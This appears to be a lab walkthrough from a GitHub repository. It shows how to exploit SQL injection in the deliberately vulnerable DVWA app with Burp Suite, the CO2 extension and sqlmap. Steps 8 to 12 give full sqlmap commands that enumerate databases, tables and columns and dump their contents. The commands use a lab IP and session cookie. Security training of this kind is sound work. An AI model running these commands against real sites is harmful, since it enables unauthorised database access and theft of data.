 #### Tool Used
**sqlmap** : sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a kick-ass detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

#### STEPS :
**1** : Start Burpsuite<br><br>
**2** : Install burp extenstion CO2 from Bwapp store from extension section  <br><br>
**3** : Set browser proxy to IP 127.0.0.1 and PORT 8080<br><br>
**4** : Intercept the DVWA traffic for sql <br><br>
**5** : Send that traffic to sqlmapper by right clicking on the intercept part<br><br>
**6** : Copy the code from CO2 sqlmap command<br><br>
**7** : The copied command will be like this <br>``-u "http://10.5.251.4:80/dvwa/vulnerabilities/sqli/?id=2^&Submit=Submit" --cookie="security=low;PHPSESSID=4ff2a823e64e9f7c2fdf14adfc4c6ef7"``<br><br>
**8** : Execute the folling commands<br>
```
sqlmap -u "http://10.5.251.4:80/dvwa/vulnerabilities/sqli/?id=2^&Submit=Submit" --cookie="security=low;PHPSESSID=4ff2a823e64e9f7c2fdf14adfc4c6ef7" --dbs
``` 
The above command will list the database anem which is present on the website if it is vulnerable. So from the list of database name copy any one database name which you want to explore more.<br><br>
**9** : Execute the folling commands
```
sqlmap -u "http://10.5.251.4:80/dvwa/vulnerabilities/sqli/?id=2^&Submit=Submit" --cookie="security=low;PHPSESSID=4ff2a823e64e9f7c2fdf14adfc4c6ef7" --dbs -D <The database name you copied earlier> --tables
```
Now this command will list the table name of that database<br><br>
**10** : Execute the folling commands
```
sqlmap -u "http://10.5.251.4:80/dvwa/vulnerabilities/sqli/?id=2^&Submit=Submit" --cookie="security=low;PHPSESSID=4ff2a823e64e9f7c2fdf14adfc4c6ef7" --dbs -D <The database name you copied earlier> -T <table name> --columns
```
The above command will list the coulmns name of the table<br><br>
**11** : Execute the folling commands
```
sqlmap -u "http://10.5.251.4:80/dvwa/vulnerabilities/sqli/?id=2^&Submit=Submit" --cookie="security=low;PHPSESSID=4ff2a823e64e9f7c2fdf14adfc4c6ef7" --dbs -D <The database name you copied earlier> -T <table name> -C <columns>
```
This command will list all the data which is present in that column<br><br>
**12** : Execute the folling commands
```
sqlmap -u "http://10.5.251.4:80/dvwa/vulnerabilities/sqli/?id=2^&Submit=Submit" --cookie="security=low;PHPSESSID=4ff2a823e64e9f7c2fdf14adfc4c6ef7" --dbs -D <The database name you copied earlier> -T <table name> -C <column name> --dump
```
This command will dump all the data present in that column
